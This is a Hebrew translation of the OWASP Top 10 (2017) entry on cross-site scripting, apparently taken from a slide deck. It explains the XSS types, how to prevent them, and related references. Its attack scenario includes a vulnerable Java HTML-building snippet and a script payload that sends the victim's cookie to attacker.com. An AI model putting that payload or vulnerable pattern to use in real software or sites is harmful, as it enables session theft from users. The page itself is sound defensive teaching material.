

A7
:2017
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
|  | יכולת ניצול: 3 | שכיחות: 3 | יכולת גילוי: 3 | השפעה טכנית: 2 |  |
| כלים ממוכנים עשויים לגלות ולנצל את כל שלושת סוגי מתקפת XSS, וכן קיימות מסגרות פריצה הזמינות להורדה חופשית. |  | מתקפת XSS הינה השנייה בשכיחותה מתוך ה-OWASP Top 10, והיא קיימת בכמעט שני שליש מכל היישומים. כלים ממוכנים עשויים למצוא חלק מבעיות XSS בצורה ממוכנת, בייחוד בטכנולוגיות בוגרות כגון PHP, J2EE / JSP וכן ASP.NET |  | ההשפעה של מתקפת XSS הינה מתונה עבור מתקפה מסוג reflected ו-DOM XSS וחמורה עבור מתקפת stored XSS, עם הרצת קוד מרוחקת בדפדפן המשתמש, כגון גניבת נתוני הזדהות, מזהה שיחה, או העברת קוד עוין לקורבן. |  |
כיצד למנוע את הסיכון
מניעת מתקפות מסוג XSS דורשת הפרדת מידע בלתי מאומת מתוכן פעיל בצד הדפדפן. ניתן להשיג זאת באמצעות:
שימוש במסגרות עבודה אשר מבצעות escaping ל-XSS בצורה מובנית, כגון הגרסה האחרונה של Ruby on Rails ו-React JS. למד את מגבלות כל אחת ממסגרות העבודה להגנה מפני מתקפות XSS והשתמש בהתאם במקרים אשר אינם מטופלים ע"י מסגרות אלו.
ביצוע escaping לבקשות HTTP בלתי מאומתות למידע בהתבסס על הקשר הפלט של ה-HTML (גוף הבקשה, מאפיינים, JavaScript, CSS או URL) יפתור פגיעויות מסוג Reflected ו-Stored XSS. מסמך OWASP Cheat Sheet ‘XSS Prevention’ מכיל פירוט אודות שיטות לביצוע escaping למידע.
הכלה של קידוד מבוסס-הקשר (context-sensitive encoding) כאשר מעדכנים את הדפדפן בצד משתמש הקצה לפעול כנגד מתקפות מסוג DOM XSS.
כאשר לא ניתן להימנע מכך, שיטות דומות לקידוד מבוסס-הקשר ניתנות ליישום לממשקי הפיתוח (APIs) של הדפדפן כפי שמתואר במסמך  OWASP Cheat Sheet ‘DOM based XSS Prevention’
הפעלת Content Security Policy (CSP) הינה בקרת הגנה בשכבות כנגד מתקפות XSS. הגנה זו יעילה במידה ואין פגיעויות נוספות אשר עשויות לאפשר אחסון קוד זדוני באמצעות שימוש בצירוף קבצים (דוגמת path traversal overwrites או ספריות פגיעות מתוך CDN)
האם היישום פגיע?
קיימות שלוש צורות של מתקפת XSS, לרוב כלפי דפדפן המשתמשים:
מתקפה מסוג Reflected XSS: היישום או ממשק הפיתוח (API) מכיל מידע בלתי מאומת כחלק מפלט ה-HTML. מתקפה מוצלחת תאפשר לתוקף להריץ קוד זדוני מסוג HTML ו-JavaScript בדפדפן הקורבן. לרוב המשתמש יידרש ללחוץ על קישור זדוני אשר יפנה אותו לדפים בשליטת התוקף, כגון אתרים זדוניים דוגמת watering hole, פרסומות וכדומה.
מתקפה מסוג Stored XSS: היישום או ממשק הפיתוח (API) מאחסנים קלט בלתי מאומת מהמשתמש, אשר נצפה בשלב מאוחר יותר ע"י משתמש אחר או ע"י מנהל המערכת. מתקפה מסוג Stored XSS לרוב נחשבת כמתקפה ברמת סיכון גבוהה או קריטית.
מתקפה מסוג DOM XSS: מסגרות עבודה של JavaScript, יישומים של עמוד-אחד, וממשקי פיתוח (API) אשר מכילים בצורה דינאמית מידע בשליטת התוקף עם הפניה לעמודים הפגיעים למתקפה מסוג זה. באופן אידיאלי, היישום לא ישלח מידע בשליטת התוקף לממשקי פיתוח (API) בלתי מאובטחים מבוססי JavaScript.
לרוב, מתקפות XSS מכילות מזהה שיחה (sessions) גנובים, חשבונות אשר השתלטו עליהם, שיטות לעקוף הזדהות חזקה (MFA), החלפה של רכיבי DOM או מתקפות מסוג defacement (כגון עמודי הזדהות המשתמשים כסוסים טרויאניים), מתקפות כנגד דפדפן המשתמש דוגמת היכולת להוריד תוכנות זדוניות, תיעוד הקלדה, ומתקפות נוספות בצד הלקוח.
דוגמאות לתרחישי תקיפה
תרחיש 1: היישום משתמש במידע בלתי מאומת בבניית ה-HTML הבא מבלי לבצע בדיקות או escaping:
  (String) page += "<input name='creditcard' type='TEXT'
  value='" + request.getParameter("CC") + "'>";
התוקף מעדכן את פרמטר ‘CC’ בדפדפן ל:
'><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
מתקפה זו תגרום למזהה השיחה של הקורבן להישלח לאתר התוקף, דבר אשר יאפשר  לתוקף לחטוף את ה-session הנוכחי של המשתמש.
הערה: תוקפים עשויים להשתמש במתקפות XSS על-מנת להכניע הגנות ממוכנות מפני מתקפות מסוג Cross-Site Request Forgery (CSRF) אשר עשויות להיות מוטמעות ביישום עצמו.
הפניות
OWASP
OWASP Proactive Controls: Encode Data
OWASP Proactive Controls: Validate Data
OWASP Application Security Verification Standard: V5
OWASP Testing Guide: Testing for Reflected XSS
OWASP Testing Guide: Testing for Stored XSS
OWASP Testing Guide: Testing for DOM XSS
OWASP Cheat Sheet: XSS Prevention
OWASP Cheat Sheet: DOM based XSS Prevention
OWASP Cheat Sheet: XSS Filter Evasion
OWASP Java Encoder Project

הפניות חיצוניות
CWE-79: Improper neutralization of user supplied input
PortSwigger: Client-side template injection